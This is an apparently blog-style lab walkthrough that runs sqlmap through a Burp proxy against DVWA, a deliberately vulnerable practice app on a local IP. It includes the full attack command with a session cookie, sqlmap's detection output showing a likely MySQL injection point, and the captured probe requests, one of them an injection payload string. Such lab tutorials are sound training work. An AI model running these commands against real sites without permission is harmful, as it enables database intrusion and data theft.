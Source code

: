 Now we're cooking. Time to bust out the toolz!

`py -2 .\sqlmap.py --proxy=http://127.0.0.1:8080 -u "http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus&Submit=Submit#" --cookie="PHPSESSID=7utdbu8ujguekphdg426i7juk6"`

A little explanation: `py -2` because I'm on Windows, `.\sqlmap.py` because
PowerShell is awesome, `--proxy=http://127.0.0.1:8080` to pass everything through
Burp, and `-u
"http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus&Submit=Submit#"`
is the URL that we're attacking. We also pass in the `--cookie` option with the
`PHPSeSSID` from our authenticated session. If you don't supply the cookie then
the app will redirect us to the login screen and sqlmap will try and test that
URL instead.

*IMPORTANT*: the URL is being attacked through a `GET` request. Sqlmap will
attempt to find the injection point itself, so we're only passing in a basic
string, *not* one that breaks the app.

Hit go and we get:

    [19++]:> py -2 .\sqlmap.py --proxy=http://127.0.0.1:8080 -u
    "http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus&Submit=Submit#"
    --cookie="PHPSESSID=7utdbu8ujguekphdg426i7juk6"

        sqlmap/1.0-dev-991cafc - automatic SQL injection and database takeover
        tool
        http://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior
    mutual consent is illegal. It is the end user's responsibility to obey all
    applicable local, state and federal laws. Developers assume no liability
    and are not responsible for any misuse or damage caused by this program

    [*] starting at 22:15:38

    [22:15:38] [INFO] testing connection to the target URL
    [22:15:38] [INFO] testing if the target URL is stable. This can take a couple of seconds
    [22:15:39] [INFO] target URL is stable
    [22:15:39] [INFO] testing if GET parameter 'id' is dynamic
    [22:15:39] [WARNING] GET parameter 'id' does not appear dynamic
    [22:15:39] [INFO] heuristics detected web page charset 'ascii'
    [22:15:39] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
    [22:15:39] [INFO] testing for SQL injection on GET parameter 'id' heuristic (parsing) test showed that the back-end DBMS could be 'MySQL'.
    Do you want to skip test payloads specific for other DBMSes? [Y/n]

Sqlmap has detected that the app is running on MySQL (correct). But how did it
do that? Let's see what ended up in Burp. The following requests were made:

    http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus&Submit=Submit
    http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus&Submit=Submit
    http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=3776&Submit=Submit
    http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus%28%29%5D%5D%27%2C%5D%27.%28&Submit=Submit

